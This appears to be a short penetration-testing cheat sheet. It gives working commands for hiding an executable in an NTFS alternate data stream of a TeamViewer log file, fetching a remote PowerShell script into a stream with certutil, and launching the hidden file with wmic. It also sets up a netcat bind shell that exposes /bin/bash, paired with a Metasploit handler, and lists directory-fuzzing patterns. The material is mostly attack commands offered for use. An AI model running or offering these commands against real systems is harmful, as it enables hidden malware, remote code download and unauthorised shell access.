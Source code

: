 # Uncategorized

### Alternate Data Streams:

* File on NTFS formatted drive has 2 streams:
  * Data stream: default stream - contains data
  * Resource stream: used for metadata
  * This is useful to hiding file
* Write to ADS
  * `type C:\temp\evil.exe > "C:\Program Files (x86)\TeamViewer\TeamViewer12_Logfile.log:evil.exe"`
* Download directly into ADS
  * `certutil.exe -urlcache -split -f https://raw.githubusercontent.com/Moriarty2016/git/master/test.ps1 c:\temp:ttt`
* Executing from ADS
  * `wmic process call create '"C:\Program Files (x86)\TeamViewer\TeamViewer12_Logfile.log:evil.exe"'`
  * NOTE: full path
* There are many other methods to add and execute
  * https://gist.github.com/api0cradle/cdd2d0d0ec9abb686f0e89306e277b8f



## Metasploit bind shell

<pre class="language-sh"><code class="lang-sh"># target
<strong>nc -lvnp &#x3C;target_port> -e /bin/bash 
</strong>
# attacker
use multi/handler
set payload generic/shell_bind_tcp
set rhost &#x3C;target>
set lport 9015
run
</code></pre>



Tips

**Finding hidden directory**

```
/.FUZZ
/-FUZZ
/~FUZZ
/_FUZZ
```

